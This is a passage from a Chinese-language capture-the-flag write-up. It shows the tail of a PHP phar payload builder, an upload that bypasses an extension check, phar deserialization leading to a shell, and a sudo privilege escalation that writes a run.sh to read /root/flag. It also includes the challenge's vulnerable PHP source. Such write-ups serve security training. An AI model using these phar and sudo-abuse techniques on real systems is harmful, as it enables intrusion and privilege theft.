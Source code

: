 ```php
$phar->setStub("<php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

接着我们可通过抓包修改文件后缀的方法上传我们的phar文件

![image-20241229130253696](../assets/image-20241229130253696.png)



上传成功

我们接着读phar文件

![image-20241229130529673](../assets/image-20241229130529673.png)

![image-20241229131312566](../assets/image-20241229131312566.png)

成功弹shell

![image-20241229131353434](../assets/image-20241229131353434.png)

尝试读flag发现要提权

通过 **sudo -l** 可以发现有一个check.sh文件具有sudo权限

![image-20241229132017835](../assets/image-20241229132017835.png)

执行check.sh会运行run.sh

![image-20241229132223194](../assets/image-20241229132223194.png)

也就是说我们可以通过写一个run.sh来读flag

```
echo "cat /root/flag" > /tmp/rootscripts/run.sh
chmod 777 /tmp/rootscripts/run.sh
sudo /tmp/rootscripts/check.sh "/tmp/rootscripts"
```

![image-20241229132815538](../assets/image-20241229132815538.png)

拿到flag



题外

/chal13nge.php的源码

```php
<?php
error_reporting(0);
include "class.php";

if (isset($_POST['image_path'])) {
    $image_path = $_POST['image_path'];
    echo "The owner ID of the file is: ";
    echo fileowner($image_path)."<br><br>";
    echo "文件信息如下：". "<br>";
    $m = getimagesize($image_path);
    if ($m) {
        echo "宽度: " . $m[0] . " 像素<br>";
        echo "高度: " . $m[1] . " 像素<br>";
        echo "类型: " . $m[2] . "<br>";
        echo "HTML 属性: " . $m[3] . "<br>";
        echo "MIME 类型: " . $m['mime'] . "<br>";
    } else {
```